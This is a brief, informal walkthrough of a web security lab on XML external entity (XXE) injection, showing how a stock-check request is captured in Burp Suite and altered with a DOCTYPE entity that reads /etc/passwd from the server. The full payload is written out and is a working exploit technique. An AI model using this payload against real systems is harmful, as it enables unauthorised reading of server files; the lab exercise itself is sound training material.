

hello , welcome back

This lab about new problems with xml injection :
Let's cook it :

This is your question :

Look at screen show merchandise we 'll see that :

Scroll to bottom of pages we see one input to chose where? to see item from database

while you catch the request by burp suite we will see :

Wow it is XML form :
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>2</storeId>
</stockCheck>

 use this payload :                     <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

 to be that :

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>2</storeId>
</stockCheck>
then it will successful 

Happy @@@ good luck